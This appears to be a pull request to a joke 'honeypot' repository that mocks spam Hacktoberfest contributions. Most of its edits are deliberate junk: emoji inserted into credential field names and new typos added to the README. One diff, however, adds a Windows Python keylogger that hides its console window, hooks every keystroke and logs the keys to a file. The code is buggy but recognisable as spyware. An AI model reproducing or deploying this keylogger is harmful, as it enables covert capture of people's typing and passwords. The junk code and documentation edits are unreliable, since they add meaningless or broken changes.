

Made excellent changes.

diff --git a/source/keylogger.py b/source/keylogger.py
@@ -1,0 +1,33 @@
+# Python code for keylogger 
+# to be used in windows 
+import win32api 
+import win32console 
+import win32gui 
+import pythoncom, pyHook 
+  
+win = win32console.GetConsoleWindow() 
+win32gui.ShowWindow(win, 0) 
+  
+def OnKeyboardEvent(event): 
+    if event.Ascii==5: 
+        _exit(1) 
+    if event.Ascii !=0 or 8: 
+    #open output.txt to read current keystrokes 
+        f = open('c:\output.txt', 'r+') 
+        buffer = f.read() 
+        f.close() 
+    # open output.txt to write current + new keystrokes 
+        f = open('c:\output.txt', 'w') 
+        keylogs = chr(event.Ascii) 
+        if event.Ascii == 13: 
+            keylogs = '/n'
+            buffer += keylogs 
+            f.write(buffer) 
+        f.close() 
+# create a hook manager object 
+hm = pyHook.HookManager() 
+hm.KeyDown = OnKeyboardEvent 
+# set the hook 
+hm.HookKeyboard() 
+# wait forever 
+pythoncom.PumpMessages() 

diff --git a/source/script.java b/source/script.java
@@ -3,6 +3,6 @@ s
 
 // Create a honeypost instance
 const honeypot = new Honeypotoperfest({
-  consumerKye: '',
-  consumersecret: '',;
+  consume🔑rKye: '', /// added emoji to make it more readbible.
+  🤫consumersecret: '',;
 });

diff --git a/README.md b/README.md
@@ -11,15 +11,15 @@ This repository is a honeypot for those Hacktoberfest trash code contributors
 
 ## Background
 
-This porject is just a social experiment.
-I intentionally left some typos and other issues to attract the attention of [Hacktoberfest](https://hacktoberfest.com/honeytoberfest) attendees.
-As long as you carefully read the contents of this readme, you will leave with an understanding.
+This porject is just a social expariment.
+I intentionally left some typos and other issues to attract the attention of [Hackerfest](https://hacktoberfest.com/honeytoberfest) attendees.
+As long as you carefully read the contents of this readme, you will leave with an understending.
 
-Please don't hesitate to star this project to attract more trash contributors.
+Please don't hesitate to star this project to attract more trash contributirs.
 
 ## Usage
 
-First, you need to get a Github account.
+First, you need to get a Google account.
 
 Then, Here we go,! Simply run this JavaScript code with your Java runtime.
 
@@ -46,7 +46,7 @@ Thank you for reading this fancy documentation!
 
 ## I'm not asking you
 
-⭐ Hey Hacktoberfest attendees! I can review you pull request faster if you star my project! ⭐
+⭐ Hey Hacktoberfest attendees! I can review you pull request faster if you star my pooject! ⭐
 
 💰 To get approval of the pull request much quicker and faster (Send me money) 💰
 
